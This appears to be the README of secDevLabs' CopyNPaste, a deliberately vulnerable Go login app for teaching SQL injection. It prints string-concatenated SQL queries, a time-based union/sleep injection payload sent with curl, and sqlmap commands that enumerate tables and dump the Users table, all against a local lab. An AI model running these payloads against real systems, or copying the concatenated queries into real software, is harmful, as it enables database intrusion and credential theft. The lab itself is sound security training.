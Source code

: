 # CopyNPaste API

<img src="../../../images/secDevLabs-logo.png" align="" height="80" />

CopyNPaste is Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enables users register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:3000][App], as exemplified bellow:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know steps

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:3000/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:3000/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section descrides how an attacker could identify and exploit an SQL Injection in CopyNPaste app. We encourage you follow these steps and try to reproduce the attack itself before reading any code.

#### Vulnerabilituy identification  👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="docs/attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="docs/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login
```

Request:

<img src="docs/attack-2.png" align="center"/>

30 seconds later:

<img src="docs/attack-3.png" align="center"/>

#### Vulnerability exploitation 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will come to the app:

```sh
docker logs a1_api -f
```

After that, we could now use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="docs/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="docs/attack-5.png" align="center"/>

## Secure this app 🔧

How could you now migitate this vulnerability? After your code modification, an attacker should not be able to:

* Execute SQL queries into database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3000
